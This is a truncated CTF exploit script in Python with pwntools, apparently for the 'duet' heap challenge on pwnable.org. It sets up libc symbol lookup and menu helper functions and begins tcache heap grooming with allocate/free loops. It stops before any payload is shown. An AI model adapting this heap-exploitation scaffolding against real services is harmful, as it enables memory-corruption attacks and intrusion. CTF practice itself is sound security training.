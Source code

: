 ```python=
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = 'pwnable.org'
port = 12356

binary = "./duet"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

def new(index,data):
  r.recvuntil(": ")
  r.sendline("1")
  r.recvuntil(": ")
  r.sendline(index)
  r.recvuntil(": ")
  r.sendline(str(len(data)))
  r.recvuntil(": ")
  r.send(data)
  pass


def remove(index):
  r.recvuntil(": ")
  r.sendline("2")
  r.recvuntil(": ")
  r.sendline(index)
  pass

def show(index):
  r.recvuntil(": ")
  r.sendline("3")
  r.recvuntil(": ")
  r.sendline(index)

def heap(b):
  r.recvuntil(": ")
  r.sendline("5")
  r.recvuntil(": ")
  r.sendline(str(b))

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

else:
  r = remote(host ,port)

if __name__ == '__main__':
  fuck = {0: "琴",1:"瑟"}
  for i in xrange(7):
    new(fuck[0],"A"*0x80)
    remove(fuck[0])
    new(fuck[0],"A"*0xe0)
```